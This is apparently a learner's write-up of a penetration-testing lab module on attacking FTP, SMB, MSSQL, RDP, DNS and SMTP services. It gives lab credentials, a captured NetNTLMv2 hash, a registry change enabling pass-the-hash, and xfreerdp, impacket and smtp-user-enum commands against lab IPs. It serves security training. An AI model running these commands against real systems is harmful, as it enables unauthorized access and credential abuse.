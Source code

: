 # ⚙ Attacking common services

## Assessment

### FTP

What username is available for the FTP server?

* I used the wordlist from ftp **anonymous** and get the username and password list.

<figure><img src="../../.gitbook/assets/image (79) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SMB

What is the name of the shared folder with READ permissions?

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption><p>GGJ</p></figcaption></figure>

What is the password for the username "jason"?

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption><p>MAKE SURE TO RUN WITH --local-auth</p></figcaption></figure>

Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

<figure><img src="../../.gitbook/assets/image (62) (1).png" alt=""><figcaption></figcaption></figure>

### SQL DB

What is the password for the "mssqlsvc" user?

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

`mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:5a04b004fa4e9d85f6186628bbb5f628:0101000000000000800f5b3cd1a9d9013832986d3a5b90e8000000000100100045006c0046004800450079006a0061000300100045006c0046004800450079006a006100020010006d007100780051006100480062004900040010006d00710078005100610048006200490007000800800f5b3cd1a9d90106000400020000000800300030000000000000000000000000300000205c323361b6fee9491d3dade42cd1a0ade509215af472deb6f497f224759ddc0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000`

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

Enumerate the "flagDB" database and submit a flag as your answer.

```
impacket-mssqlclient 'mssqlsvc:princess1@10.129.203.12' -windows-auth
```

* Then explored the flagDB and got the hash.

### RDP

{% hint style="success" %}
RDP to target with username "`htb-rdp`" and password "`HTBRocks!`"
{% endhint %}

What is the name of the file that was left on the Desktop? (Format example: filename.txt)

* `pentest-notes.txt`

Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

* `DisableRestrictedAdmin`

Connect via RDP with the Administrator account and submit the flag.txt as you answer.

<figure><img src="../../.gitbook/assets/image (20) (2).png" alt=""><figcaption><p>Administrator:0E14B9D6330BF16C30B1924111104824</p></figcaption></figure>

1. `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
2. `xfreerdp /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution`
3. ![](<../../.gitbook/assets/image (8) (1) (1).png>)

### DNS

Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* used subbrute to enum the subdomain.
* found hr.inlanefreight.htb.
* performed dns zone transfer on hr.inalnefreight.htb.
* got the flag.

### EMAIL

What is the available username for the domain inlanefreight.htb in the SMTP server?

* ```shell-session
  smtp-user-enum -M RCPT -U ../users.list -D inlanefreight.htb -t 10.129.203.12
  ```

Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

<figure><img src="../../.gitbook/assets/image (58) (1) (1).png" alt=""><figcaption><p>marlin@inlanefreight.htb:poohbear</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>

